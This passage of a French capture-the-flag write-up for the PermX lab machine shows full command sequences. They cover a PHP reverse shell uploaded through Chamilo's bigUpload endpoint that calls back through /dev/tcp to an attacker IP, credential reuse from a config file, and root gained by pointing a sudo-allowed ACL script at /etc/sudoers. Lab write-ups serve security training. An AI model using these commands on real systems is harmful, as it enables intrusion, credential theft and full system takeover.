 ### 🔄 Phase 4 : Reverse shell

```bash
# 1. Démarrer un listener
nc -lnvp 4455

# 2. Créer un reverse shell PHP
echo '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.12/4455 0>&1'\''"); ?>' > rev.php

# 3. Upload du reverse shell
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'

# 4. Déclencher le reverse shell
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'
# → Shell www-data obtenu !

# 5. Stabilisation du shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# (Ctrl+Z puis)
stty raw -echo; fg
stty rows 38 columns 160
```

### 🔑 Phase 5 : Pivoting vers mtz

```bash
# 1. Énumération des fichiers de configuration Chamilo
cat /var/www/chamilo/app/config/configuration.php
# → Trouve les credentials MySQL : mtz / 03F6lY3uXAP2bkW8

# 2. Test de réutilisation du mot de passe pour SSH
ssh mtz@permx.htb
# Password: 03F6lY3uXAP2bkW8
# → Connexion réussie !

# 3. Récupération du user flag
cat ~/user.txt
```

### 👑 Phase 6 : Escalade de privilèges (Sudo ACL)

```bash
# 1. Vérifier les permissions sudo
sudo -l
# → (ALL : ALL) NOPASSWD: /opt/acl.sh

# 2. Analyser le script acl.sh
cat /opt/acl.sh
# → Script qui modifie les ACL avec setfacl

# 3. Créer un lien symbolique vers /etc/sudoers
ln -s /etc/sudoers /home/mtz/root

# 4. Donner les permissions d'écriture via le script
sudo /opt/acl.sh mtz rw /home/mtz/root
# → ACL modifiées pour écrire dans /etc/sudoers !

# 5. S'ajouter dans sudoers
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root

# 6. Obtenir un shell root
sudo bash
# → Root shell obtenu !
```